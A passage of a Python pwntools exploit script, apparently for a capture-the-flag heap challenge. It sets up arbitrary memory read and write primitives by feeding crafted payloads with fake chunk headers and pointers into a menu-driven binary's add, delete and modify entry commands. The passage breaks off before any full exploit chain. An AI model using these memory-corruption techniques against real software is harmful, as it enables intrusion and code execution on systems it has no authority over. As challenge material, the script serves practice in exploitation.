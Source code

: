```python
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p, gdbscript=gdb_script)

    return p

def edit_add_entry(key, value):

    p.sendlineafter(b"> ", b"1")
    p.sendline(key + b"=" + value)

def edit_del_entry(key):

    p.sendlineafter(b">", b"2")
    p.sendline(key)

def edit_mod_entry(key, value):
    
    p.sendlineafter(b"> ", b"3")
    p.sendline(key + b"=" + value)

def aarb_read(where):

    if not primitives:
        return None

    payload = b"R"*0x11b
    payload += p64(0x0)
    payload += p64(0x31)
    payload += p64(where)
    payload += p64(where)
    payload += p64(0x0)
    payload += p64(0x0)

    edit_add_entry(b"team", payload)
    edit_del_entry(b"team")

    data = p.recvuntil(b">")
    p.sendline(b"\n")

    return data

def aarb_write(where, what, size):

    if not primitives:
        return None
    
    payload = b"W"*0x11b
    payload += p64(0x0)
    payload += p64(0x31)
    payload += p64(where)
    payload += p64(heap_leak + 0x370)
    payload += p64(size)
    payload += p64(0x0)
    
    edit_add_entry(b"team", payload)
    edit_del_entry(b"team")
    
    edit_mod_entry(b"token", what)

if __name__ == "__main__":

    PREV_SIZE = 0x5b0
```
